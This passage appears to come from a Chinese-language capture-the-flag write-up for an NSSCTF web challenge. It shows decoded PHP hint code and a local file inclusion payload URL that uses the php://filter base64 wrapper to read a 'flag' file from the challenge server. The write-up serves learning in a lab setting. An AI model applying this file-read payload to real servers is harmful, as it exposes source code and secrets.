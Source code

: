 解码得到

```
<?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");

echo   "NSSCTF{flag_is_not_here}" ."<br/>";
echo "real_flag_is_in_'flag'"."<br/>";
echo "换个思路，试试PHP伪协议呢";
```

```
http://node5.anna.nssctf.cn:26877/?file=php://filter/read=convert.base64-encode/resource=flag
```

![image-20250803201247532](./NSSCTF-2.assets/image-20250803201247532.png)

![image-20250803201302126](./NSSCTF-2.assets/image-20250803201302126.png)
